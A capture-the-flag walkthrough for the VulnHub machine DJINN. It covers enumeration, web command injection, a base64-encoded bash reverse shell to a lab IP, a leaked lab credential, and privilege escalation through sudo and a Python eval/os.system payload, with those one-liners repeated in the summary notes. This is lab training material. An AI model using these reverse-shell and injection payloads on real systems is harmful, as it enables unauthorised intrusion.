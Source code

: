```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```



## **Description ⤵️**


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```
{: .nolineno}

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing id command I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after many hardwork I got to know that for achiving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```
{: .nolineno}

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

.pyc file in `/home/sam/.pyc` After tranfering to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

proof.txt → `33eur2wjdmq80z47nyy4fx54bnlg3ibc`

<hr>

# **Summery Notes →**

> **bash** -i >**&** **/**dev**/**tcp**/**10.0.2.10**/**4444 **0>&**1 
> **echo** YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== **|** base64 -d **|** **bash** 
> **sudo** -u sam **/**usr**/**bin**/**genie -cmd **whoami** 
> **eval** **(**'__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")'**)**
{: .prompt-tip }

<hr>